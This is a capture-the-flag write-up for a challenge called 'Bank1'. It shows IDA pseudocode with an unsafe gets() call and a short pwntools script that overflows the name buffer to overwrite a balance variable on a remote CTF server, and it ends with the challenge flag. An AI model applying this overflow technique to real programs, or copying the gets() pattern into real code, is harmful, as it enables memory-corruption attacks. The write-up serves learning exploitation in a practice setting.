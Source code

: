 # **Bank1**

Pseudo code from IDA:

```c++
void getFlag()
{
  system("cat flag.txt");
}
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch] BYREF
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
  if ( balance )
    getFlag();
}
```

This is even easier than HPBD since we just need to overwrite `balance`. Exploit the vulnerable gets function with buffer overflow and we can get to the flag.

The exploit code:

```python
from pwn import *

r = remote("61.28.237.24", 30202)

r.recvuntil('[+] Please enter your name: ')
payload= "A"*64+p32(0xCABBFEFF) #64 "A" to fill name[64] and I copied this from hpbd since I was lazy xD(random characters is good enough)
r.send(payload)
r.interactive()
#HCMUS-CTF{that_was_easy_xd}
```

[**Turn Back**](README.md)